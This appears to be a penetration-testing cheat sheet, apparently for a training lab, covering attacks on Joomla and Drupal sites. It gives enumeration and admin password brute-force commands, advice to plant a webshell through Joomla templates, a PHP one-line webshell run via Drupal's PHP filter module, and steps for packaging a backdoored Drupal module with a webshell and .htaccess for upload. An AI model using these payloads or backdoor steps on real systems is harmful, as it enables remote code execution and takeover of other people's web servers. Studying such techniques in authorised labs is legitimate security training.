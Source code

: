 #### Joomla

- Fingerprint version from README.txt file, or from javascript files in "media/system/js/" directory, or navigating to "administrator/manifests/files/joomla.xml", "plugins/system/cache/cache.xml"

```bash
droopescan scan joomla --url http://dev.inlanefreight.local/
python2.7 joomlascan.py -u http://dev.inlanefreight.local
sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```

```bash
gobuster dir -e -q -n -u http://$1:$2 -k -w /opt/SecLists/Discovery/Web-Content/CMS/joomla-plugins.fuzz.txt -o $DIR/joomla-plugins.txt
gobuster dir -e -q -n -u http://$1:$2 -k -w /opt/SecLists/Discovery/Web-Content/CMS/joomla-themes.fuzz.txt -o $DIR/joomla-themes.txt
```

- If logged in, customize template and insert webshell code

#### Drupal

```bash
droopescan scan drupal -u http://drupal.inlanefreight.local
```

PHP Filter Module.

- If pre-V8, enable php filter module -> go to content -> add content & create basic page.
- Make sure Text format is PHP code
- If post-V8, go to updates -> install -> and upload the module yourself "https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz"

```bash
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```

Backdoored module.

```bash
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
# Create a PHP web shell with the contents
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
# Create a .htaccess file to give ourselves access to the folder. This is necessary as Drupal denies direct access to the /modules folder
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
# The configuration above will apply rules for the / folder when we request a file in /modules. Copy both of these files to the captcha folder and create an archive.
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
# Manage -> extend -> + Install new module -> upload
```
